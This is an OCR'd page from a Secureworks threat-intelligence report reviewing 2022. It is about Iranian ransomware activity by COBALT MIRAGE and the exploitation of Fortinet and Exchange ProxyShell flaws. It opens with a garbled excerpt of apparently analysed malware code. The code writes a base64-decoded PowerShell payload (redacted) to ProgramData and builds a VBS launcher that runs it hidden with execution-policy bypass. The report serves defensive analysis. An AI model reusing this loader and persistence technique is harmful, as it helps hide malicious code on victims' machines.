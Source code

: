 C:ProgramDataMsNpENgcurent.txt
fh.WriteLine("$data \- \[System.Convert]::FromBase64String("\+""\[BASE 64 ENCODED POWERSHELL PAYLOAD]""\+")");
fh.WriteLine("$decoded \- \[System.Text.Encoding]::UTF8\.GetString($data)");
fh.Writeline("$path \- $env:ALLUSERSPROFILE");
fh.WriteLine("New\-Item \-Path $path"\+"'Windows'"\+" \-ItemType Directory \> $null");
fh.WriteLine("$decoded \> $path"\+"'WindowsSystem.ps1'");
fh.WriteLine("$vbln1\-'set objsh\- CreateObject("WScript.Shell")'");
fh.WriteLine("$vbln2\-'obish.run "powershell.exe \-exec bypass \-windowstyle hidden \-NonInteractive \-noprofile \-FILE
%programdata%WindowsSystem.ps1",0, false'");
fh.Writeline("echo $vbln1 \> C:ProgramDataWindowsrunfile.vbs");
fh.WriteLine("echo $vbln2 \>\> C:ProgramDataWindowsrunfile.vbs");
fh.Close();
45
2022 State of the Threat: A Year in Review
06
07
08
01
Letter From Our CTIO
Executive Summary 
and Key Findings
Ransomware Remains the 
Primary Strategic Threat
Ransomware Enablers: 
Loaders and Infostealers
Exploitation of Remote 
Services is Now the Most 
Common Access Vector
Hostile Government\-
Sponsored Actor Activity 
Shows a Regional Focus
Defense Evasion Offers Its 
Own Detection Opportunities
Conclusion
The Secureworks
View of the Threat
02
03
04
05
06
07
08
09
Iranian Ransomware Continues,
With Limited Impact
Ransomware has continued to develop as a theme across Iranian 
threat group activity in the last 12 months, although it is not always 
clear what the attacks are intended to achieve. Often, they appear to 
be used for disruption rather than financial gain.
Over the past year, Secureworks incident responders have investigated 
COBALT MIRAGE ransomware attacks against organizations in Israel, 
the U.S Europe, and Australia. Elements of COBALT MIRAGE activity 
were reported as PHOSPHORUS66 and TunnelVision67, and the group 
is thought linked to COBALT ILLUSION68 (which predominantly uses 
persistent phishing campaigns to obtain initial access in espionage\-
related campaigns). 
In November 2021, U.S Australian, and British government agencies 
issued a joint advisory69 detailing exploitation since at least March 
2021 of Fortinet vulnerabilities by an Iranian group in order to gain initial 
access to systems. The group also exploited the Microsoft Exchange 
ProxyShell vulnerability since at least October 2021 for initial access. 